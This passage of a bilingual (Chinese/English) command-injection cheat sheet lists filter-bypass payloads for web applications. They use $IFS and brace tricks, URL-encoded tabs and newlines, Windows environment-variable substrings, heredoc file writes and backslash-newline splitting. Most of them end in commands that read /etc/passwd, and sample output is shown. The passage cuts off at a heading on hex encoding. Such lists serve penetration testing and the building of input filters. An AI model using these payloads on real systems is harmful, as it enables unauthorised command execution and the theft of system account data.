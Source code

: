 ```bash
IFS=,;`cat<<<uname,-a`
```

在过滤空格的 Web 应用程序中将制表符用作分隔符

```bash
;ls%09-al%09/home
drwxr-xr-x  4 root root  4096 Jan 10 13:34 .
drwxr-xr-x 18 root root  4096 Jan 10 13:33 ..
drwx------  2 root root 16384 Jan 10 13:31 lost+found
drwxr-xr-x  4 test test  4096 Jan 13 08:30 test
```

仅对Windows生效

```bash
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Bypass with a line return - 回车绕过

```bash
something%0Acat%20/etc/passwd
```

You can also write files.

```bash
;cat>/tmp/hi<<EOF%0ahello%0aEOF
;cat</tmp/hi
hello
```

### Bypass with backslash newline - 反斜杠换行绕过

可以使用反斜杠后跟换行符，将命令分成几部分：

```bash
❯ cat /et\
c/pa\
sswd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[SNIP]
```

URL编码形式如下所示：

```bash
cat%20/et%5C%0Ac/pa%5C%0Asswd
```

### Bypass characters filter via hex encoding - 十六进制绕过
